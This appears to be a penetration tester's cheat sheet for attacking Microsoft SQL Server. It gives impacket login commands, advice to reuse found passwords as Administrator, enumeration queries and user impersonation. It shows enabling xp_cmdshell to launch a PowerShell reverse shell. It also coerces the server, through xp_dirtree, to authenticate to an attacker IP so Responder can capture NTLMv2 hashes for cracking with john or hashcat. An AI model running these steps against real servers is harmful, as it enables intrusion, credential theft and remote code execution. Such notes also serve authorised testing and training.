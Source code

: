 ## Authenticating to MSSQL Database

From Linux
```bash
# Auth
impacket-mssqlclient '<user>':'<pass>'@<ip_address> -port <port> -windows-auth

# Domain Auth (might not need)
impacket-mssqlclient <domain>/<user>:'<pass>'@<ip_address> -port <port> -windows-auth
```

From Windows
```cmd
sqlcmd /S <servername> /d <database> -U <user> -p <pass>
```

## Password Reuse
If you find a password, potentially try to authenticate to mssql as Administrator as well
	if successful, ALL databases will be revealed

## Enumeration
Enumeration
	See [[0 SQL Theory and Databases]]
	also
	PayloadAllTheThings

Enumeration Summary
```sql
# View Databases:

SELECT name FROM sys.databases;
	Defaults:
		master
		tempdb
		model
		msdb

# View Tables:

SELECT * FROM <database>.information_schema.tables;


# View Entries in Tables:

SELECT * FROM <database>.<table_schema>.<table_name>;
```

## User Impersonation

Impersonate users 
```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'  
	
	# this will display user(s) we can impersonate

EXECUTE AS LOGIN = '<user>'
```

## Command Execution
try this first
	`enable_xp_cmdshell

Command Execution Workflow
```bash
# Authenticate
impacket-mssqlclient 'domain'/'user':'password'@<target_ip> -windows-auth

# Enable xp_cmdshell
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL> RECONFIGURE;

SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL> RECONFIGURE;

# Reverse shell
SQL> EXECUTE xp_cmdshell '<command(base64_powershell_revshell)>';
```

## Capture Net-NTLMv2 Hash
If no interesting data exists in the database and you cannot run commands, you can try and get MSSQL to connect to your host and authenticate, and capture the challenge / response

Net-NTLMv2 Hash Capture
```bash
sudo responder -I tun0

SQL> EXEC xp_dirtree '\\<attacker_ip>\share', 1, 1

# capture NTLMv2 hash
# crack with john or hashcat
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64
or
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --rules-file /usr/share/hashcat/rules/best64.rule
```